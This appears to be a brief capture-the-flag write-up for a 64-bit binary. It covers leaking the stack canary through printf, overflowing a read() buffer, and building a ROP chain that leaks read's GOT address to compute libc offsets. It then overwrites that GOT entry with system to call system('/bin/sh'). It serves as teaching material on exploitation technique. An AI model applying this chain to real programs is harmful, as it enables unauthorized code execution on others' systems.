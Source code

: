 **Read source code**
- `printf("Buf: %s\n", buf);`: leak canary
- `read(0, buf, 0x100);`: bufferoverflow => ROP
- Stack
```
buf (rbp - 0x40)
canary (rbp-0x8)
rdi -> 1
rsi -> read_got
r15 -> 0
write_plt
---
rdi -> 0
rsi -> read_got
r15 -> 0
read_plt
---
rdi -> read_got+8
ret
read_plt
```
- `Checksec` in gdb
```
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
- So the idea is that use gadget to change the execution flow of a program without injecting new code.
- Then overwrite GOT of `read` with `system` and `/bin/sh`
---  
***EPLOIT***
```
write(1, read_got,)
read(0, read_got,)
read(read_got + 0x8)
```
- Get address of read_got by `write(1, read_got,)`
- Calculate `libc_base = read - read_offset`
- Calculate `system = libc_base + system_offset`
- Overwrite address of `read_got` with `system + binsh` by using `read(0, read_got,)`
- Call `system("/bin/sh")` by `read(read_got + 0x8)`
  + `read_got + 0x8` is `/bin/sh`
- Remember to use `pwninit` to patch binary and library (libc.so.6) to run program properly with desired environment

